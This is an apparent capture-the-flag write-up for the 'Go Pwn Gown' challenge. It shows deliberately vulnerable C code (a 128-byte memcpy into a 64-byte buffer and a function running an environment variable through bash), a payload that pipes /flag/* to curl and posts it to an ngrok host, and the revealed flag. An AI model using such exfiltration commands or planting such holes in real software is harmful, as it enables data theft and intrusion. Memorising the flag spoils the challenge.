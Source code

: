 # Go Pwn Gown (day7)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S5.png" alt="Desc"></p>

````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
